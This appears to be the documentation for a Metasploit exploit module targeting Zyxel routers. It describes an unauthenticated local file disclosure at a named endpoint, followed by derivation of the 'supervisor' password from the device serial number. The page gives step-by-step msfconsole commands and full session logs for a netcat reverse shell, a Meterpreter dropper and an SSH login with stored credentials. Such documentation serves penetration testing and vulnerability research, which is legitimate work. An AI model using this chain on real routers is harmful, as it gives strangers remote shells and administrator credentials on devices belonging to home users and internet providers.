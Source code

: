 ## Vulnerable Application

This module exploits multiple vulnerabilities in the `zhttpd` binary (/bin/zhttpd) and `zcmd` binary (/bin/zcmd).
It is present on more than 40 Zyxel routers and CPE devices.
The remote code execution vulnerability can be exploited by chaining the local file disclosure (LFI) vulnerability
in the `zhttpd` binary that allows an unauthenticated attacker to read the entire configuration of the router
via the vulnerable endpoint `/Export_Log?/data/zcfg_config.json`.

With this information disclosure, the attacker can determine if the router is reachable via `ssh` and use
the second vulnerability in the` zcmd` binary to derive the `supervisor` password by exploiting a weak password
derivation algorithm using the device serial number.

After exploitation, an attacker will be able to execute any command as user `supervisor`.

For more info, read this article: [Zyxel router chained RCE using LFI and Weak Password Derivation Algorithm (No CVE)](https://attackerkb.com/topics/dkw2Y2zdyN/zyxel-router-chained-rce-using-lfi-and-weak-password-derivation-algorithm-no-cve) on [attackerkb.com](url).

Installing a vulnerable test bed requires a vulnerable Zyxel router.
This module has been tested against a vulnerable Zyxel router with the specifications listed below:

* Zyxel router VMG3625-T20A
* Firmware: V5.30(ABOU.2)b1_I0_20180827

## Verification Steps

1. Start `msfconsole`
1. `use exploit/linux/http/zyxel_lfi_unauth_ssh_rce`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0=unix command, 1=Linux dropper, 2=Interactive SSH>`
1. `exploit`
1. You should be able to get a session based on the target setting.


## Options
Option `STORE_CRED` can be set to store the derived credentials (supervisor) in the database of Metasploit.
Default setting is `true`.

### Advanced options
Option `SSH_DEBUG` can be set to enable SSH debugging output (Extreme verbosity!). Default is `false`.
Option `SSH_TIMEOUT` can be used to specify the maximum time to negotiate a SSH session. Default is 30 seconds.

## Scenarios

### Zyxel router VMG3625-T20A - Netcat reverse shell
```
msf6 exploit(linux/http/zyxel_lfi_unauth_ssh_rce) > options

Module options (exploit/linux/http/zyxel_lfi_unauth_ssh_rce):

   Name        Current Setting         Required  Description
   ----        ---------------         --------  -----------
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      192.168.1.1             yes       The target host(s), see https://docs.metasploit.com/docs/using-metasp
                                                 loit/basics/using-metasploit.html
   RPORT       8080                    yes       The target port (TCP)
   SSL         false                   no        Negotiate SSL/TLS for outgoing connections
   SSLCert                             no        Path to a custom SSL certificate (default is randomly generated)
   STORE_CRED  false                   no        Store credentials into the database.
   URIPATH                             no        The URI to use for this exploit (default is random)
   VHOST                               no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on th
                                       e local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.2      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/zyxel_lfi_unauth_ssh_rce) > set target 0
target => 0
msf6 exploit(linux/http/zyxel_lfi_unauth_ssh_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.2:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] hardware: VMG3625-T20A software: V5.30(ABOU.2)b1_I0_20180827 serial: S000Y00000000
[+] The target is vulnerable.
[*] hardware: VMG3625-T20A software: V5.30(ABOU.2)b1_I0_20180827 serial: S000Y00000000
[*] SSH service is available and SSH Port 22 is open. Continue to login.
[*] Derived supervisor password using SerialNumMethod2: 2dc1a078
[*] Derived supervisor password using SerialNumMethod3: 58Pxnwdefr
[*] Authentication with derived supervisor password using Method2 is successful.
[*] Executing Unix Command for cmd/unix/reverse_netcat
[*] Command shell session 1 opened (192.168.1.2:4444 -> 192.168.1.1:51236) at 2023-04-18 19:57:49 +0000

uname -a
Linux VMG3625-T20A 2.6.36 #7 SMP Mon Aug 27 19:59:01 CET 2018 mips GNU/Linux
id
uid=12(supervisor) gid=12 groups=12
exit

[*] 192.168.1.1 - Command shell session 1 closed.
msf6 exploit(linux/http/zyxel_lfi_unauth_ssh_rce)
```

### Zyxel router VMG3625-T20A - Linux Dropper Meterpreter session
```
msf6 exploit(linux/http/zyxel_lfi_unauth_ssh_rce) > set target 1
target => 1
msf6 exploit(linux/http/zyxel_lfi_unauth_ssh_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.2:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] hardware: VMG3625-T20A software: V5.30(ABOU.2)b1_I0_20180827 serial: S000Y00000000
[+] The target is vulnerable.
[*] hardware: VMG3625-T20A software: V5.30(ABOU.2)b1_I0_20180827 serial: S000Y00000000
[*] SSH service is available and SSH Port 22 is open. Continue to login.
[*] Derived supervisor password using SerialNumMethod2: 2dc1a078
[*] Derived supervisor password using SerialNumMethod3: 58Pxnwdefr
[*] Authentication with derived supervisor password using Method2 is successful.
[*] Executing Linux Dropper for linux/mipsbe/meterpreter/reverse_tcp
[*] Command Stager progress -  42.72% done (499/1168 bytes)
[*] Command Stager progress -  85.36% done (997/1168 bytes)
[*] Sending stage (1299256 bytes) to 127.0.0.1
[*] Command Stager progress - 100.00% done (1168/1168 bytes)
[*] Meterpreter session 2 opened (192.168.1.2:4444 -> 192.168.1.1:40364) at 2023-04-18 20:00:59 +0000

meterpreter > getuid
Server username: supervisor
meterpreter > sysinfo
Computer     : 192.168.1.1
OS           :  (Linux 2.6.36)
Architecture : mips
BuildTuple   : mips-linux-muslsf
Meterpreter  : mipsbe/linux
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.1.1 - Meterpreter session 2 closed.  Reason: User
msf6 exploit(linux/http/zyxel_lfi_unauth_ssh_rce)
```

### Zyxel router VMG3625-T20A - Interactive SSH session and storing the credentials of user supervisor
```
msf6 exploit(linux/http/zyxel_lfi_unauth_ssh_rce) > set target 2
target => 2
msf6 exploit(linux/http/zyxel_lfi_unauth_ssh_rce) > set STORE_CRED true
STORE_CRED => true
msf6 exploit(linux/http/zyxel_lfi_unauth_ssh_rce) > exploit

[*] Running automatic check ("set AutoCheck false" to disable)
[*] hardware: VMG3625-T20A software: V5.30(ABOU.2)b1_I0_20180827 serial: S000Y00000000
[+] The target is vulnerable.
[*] hardware: VMG3625-T20A software: V5.30(ABOU.2)b1_I0_20180827 serial: S000Y00000000
[*] SSH service is available and SSH Port 22 is open. Continue to login.
[*] Derived supervisor password using SerialNumMethod2: 2dc1a078
[*] Derived supervisor password using SerialNumMethod3: 58Pxnwdefr
[*] Authentication with derived supervisor password using Method2 is successful.
[*] Credentials for user:supervisor are added to the database...
[*] SSH session 3 opened (192.168.1.2:34493 -> 192.168.1.1:22) at 2023-04-18 20:07:36 +0000

uname -a
Linux VMG3625-T20A 2.6.36 #7 SMP Mon Aug 27 20:08:48 CET 2018 mips GNU/Linux
id
uid=12(supervisor) gid=12 groups=12
exit

[*] 192.168.1.1 - SSH session 3 closed.  Reason: User exit
msf6 exploit(linux/http/zyxel_lfi_unauth_ssh_rce) > creds -u supervisor
Credentials
===========

host           origin         service          public      private   realm  private_type  JtR Format
----           ------         -------          ------      -------   -----  ------------  ----------
192.168.1.1    192.168.1.1    8080/tcp (http)  supervisor  2dc1a078         Password

msf6 exploit(linux/http/zyxel_lfi_unauth_ssh_rce) > 
```

## Limitations
No limitations identified.
